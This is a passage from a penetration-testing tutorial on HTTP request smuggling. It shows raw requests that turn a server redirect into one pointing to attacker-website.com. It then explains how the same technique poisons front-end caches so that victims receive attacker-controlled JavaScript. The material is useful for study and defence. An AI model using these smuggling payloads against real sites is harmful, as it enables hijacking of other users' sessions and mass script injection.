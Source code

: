 `GET /home HTTP/1.1  
Host: normal-website.com  
  
HTTP/1.1 301 Moved Permanently  
Location: https://normal-website.com/home/`

This behavior is normally considered harmless, but it can be exploited in a request smuggling attack to redirect other users to an external domain. For example:

`POST / HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 54  
Connection: keep-alive  
Transfer-Encoding: chunked  
  
0  
  
GET /home HTTP/1.1  
Host: attacker-website.com  
Foo: X`

The smuggled request will trigger a redirect to the attacker's website, which will affect the next user's request that is processed by the back-end server. For example:

`GET /home HTTP/1.1  
Host: attacker-website.com  
Foo: XGET /scripts/include.js HTTP/1.1  
Host: vulnerable-website.com  
  
HTTP/1.1 301 Moved Permanently  
Location: https://attacker-website.com/home/`

Here, the user's request was for a JavaScript file that was imported by a page on the web site. The attacker can fully compromise the victim user by returning their own JavaScript in the response.

### Using HTTP request smuggling to perform web cache poisoning <a id="using-http-request-smuggling-to-perform-web-cache-poisoning"></a>

If any part of the **front-end infrastructure performs caching of content** \(generally for performance reasons\) the it **might be possible to poison that cache modifying the response of the server**.

We have already see how to modify the expected returned value from the server to a 404 \(in the [Basic Examples](http-request-smuggling.md#basic-examples)\), in a similar way you could make the server return the content of /index.html when the poisoned request is asking for `/static/include.js` . This way, the content of the `/static/include.js` will be cached with the content of `/index.html` making `/static/include.js` inaccessible to the clients \(DoS?\).

Notice this is even more interesting if you find some **Open Redirect** or some **on-site redirect to open redirect** \(last section\). Because, you could be able to **change the cache values** of `/static/include.js` with the **ones of a script controlled by you** \(making a **general XSS to all the clients** that try to download the new version of`/static/include.js`\).

In this example it's going to be shown how you can exploit a **cache poisoning + on-site redirect to open redirect** to modify the contents of the cache of `/static/include.js` to **serve JS code controlled** by the attacker:
